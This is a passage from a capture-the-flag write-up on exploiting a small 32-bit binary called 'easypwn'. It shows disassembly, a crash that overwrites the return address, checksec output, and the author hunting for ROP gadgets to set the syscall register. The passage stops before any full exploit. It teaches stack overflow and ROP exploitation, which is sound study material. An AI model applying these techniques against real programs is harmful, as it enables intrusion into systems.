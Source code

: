 ```bash
 80480dc:   83 c4 0c                add    esp,0xc
 80480df:   b8 01 00 00 00          mov    eax,0x1          # exit
 80480e4:   6a 00                   push   0x0
 80480e6:   ff d6                   call   esi
 80480e8:   83 c4 04                add    esp,0x4
 80480eb:   5e                      pop    esi
 80480ec:   c3                      ret    
```

That's not a whole lot to work with. Running it gives a clue on what to do:

```bash
bas@tritonal:~/adventctf$ ulimit -c unlimited
bas@tritonal:~/adventctf$ ./easypwn
pwn me: AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH
Segmentation fault (core dumped)
bas@tritonal:~/adventctf$ gdb ./easypwn core
...snip...
Core was generated by './easypwn'.
Program terminated with signal 11, Segmentation fault.
#0  0x45454545 in ?? ()
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : disabled
```

OK, so it's a buffer overflow, yet stack is not executable. The program uses no libraries but syscalls to do its work. We must be able to ROP our way to the flag! We have the syscall gadget lined up for us at `0x08048080`. Looks easy, right? Wrong! 

There is one **big** problem:

```bash
08048080 <syscall>:
 8048080:   8b 54 24 0c             mov    edx,DWORD PTR [esp+0xc]
 8048084:   8b 4c 24 08             mov    ecx,DWORD PTR [esp+0x8]
 8048088:   8b 5c 24 04             mov    ebx,DWORD PTR [esp+0x4]
 804808c:   cd 80                   int    0x80
 804808e:   c3                      ret    
 804808f:   90                      nop
```

We have *no way* to set `eax`! The `eax` register contains the syscall number and is kind of crucial to what we want. I uploaded the binary to [ropshell.com](https://ropshell.com) but I found no straightforward way to set `eax`. I'd prefer a `mov eax` or `pop eax`, or even `sub eax` or `xor eax`. Anything, really! I dumped the ROP gadgets with [my own tool](https://gist.github.com/barrebas/4fc86eaf0e9b124813a3) and found this little gadget:

```
RET: 0x80480e9: les eax, [esi+ebx*2]; ret;
```
